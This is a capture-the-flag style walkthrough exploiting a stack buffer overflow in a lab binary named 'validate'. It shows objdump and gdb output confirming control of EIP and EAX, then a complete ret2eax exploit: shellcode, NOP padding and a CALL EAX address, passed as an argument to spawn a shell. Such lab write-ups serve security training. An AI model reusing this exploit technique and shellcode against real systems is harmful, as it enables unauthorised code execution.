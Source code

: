 ```
root@bt:~/brainpan# objdump -M intel -d validate | grep "call"
 8048353:    e8 00 00 00 00           call   8048358 <_init+0xc>
 8048369:    e8 1e 00 00 00           call   804838c <__gmon_start__@plt>
 804836e:    e8 1d 01 00 00           call   8048490 <frame_dummy>
 8048373:    e8 98 02 00 00           call   8048610 <__do_global_ctors_aux>
 804841c:    e8 7b ff ff ff           call   804839c <__libc_start_main@plt>
 8048468:    ff 14 85 14 9f 04 08     call   DWORD PTR [eax*4+0x8049f14]
 80484af:    ff d0                    call   eax
 80484f3:    e8 d4 fe ff ff           call   80483cc <printf@plt>
 80484ff:    e8 e8 fe ff ff           call   80483ec <exit@plt>
 8048511:    e8 96 fe ff ff           call   80483ac <strlen@plt>
 8048527:    e8 90 fe ff ff           call   80483bc <strcpy@plt>
 8048558:    e8 6f fe ff ff           call   80483cc <printf@plt>
 804856c:    e8 5b fe ff ff           call   80483cc <printf@plt>
 804857c:    e8 33 ff ff ff           call   80484b4 <validate>
 8048593:    e8 44 fe ff ff           call   80483dc <puts@plt>
 80485b6:    e8 4f 00 00 00           call   804860a <__i686.get_pc_thunk.bx>
 80485c4:    e8 83 fd ff ff           call   804834c <_init>
 80485f4:    ff 94 b3 18 ff ff ff     call   DWORD PTR [ebx+esi*4-0xe8]
 804862b:    ff d0                    call   eax
 8048643:    e8 00 00 00 00           call   8048648 <_fini+0xc>
 804864f:    e8 dc fd ff ff           call   8048430 <__do_global_dtors_aux>
root@bt:~/brainpan# 
```

Two options here!  Let's see if we control EAX...

```
root@bt:~/brainpan# gdb ./validate
Reading symbols from /root/brainpan/validate...done.
(gdb) r $(perl -e 'print "\x41"x120')
Starting program: /root/brainpan/validate $(perl -e 'print "\x41"x120')
warning: the debug information found in "/lib/ld-2.11.1.so" does not match "/lib/ld-linux.so.2" (CRC mismatch).


Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) x/x $eax
0xffffd3e8:    0x41414141
(gdb) 
```

Great, we can now leverage a ret2eax attack.  We'll just need to fill up the required 116 bytes prior to the EIP overwrite, then fill that with our CALL EAX:

```
$ ./validate $(perl -e 'print "\xbe\x1f\x41\x25\xe8\xd9\xed\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1\x0c\x83\xc3\x04\x31\x73\x0f\x03\x73\x10\xa3\xd0\x82\x25\x7b\x82\x01\x5f\x13\x99\xc6\x16\x04\x89\x27\x5b\xa3\x4a\x50\xb4\x51\x22\xce\x43\x76\xe6\xe6\x59\x79\x07\xf7\x72\x1b\x6e\x99\xa3\xbf\x11\x16\xd3\x3f\x85\x8b\xaa\xa1\xe4\xac" . "\x90"x44 . "\x2b\x86\x04\x08"')
$ whoami
anansi
```
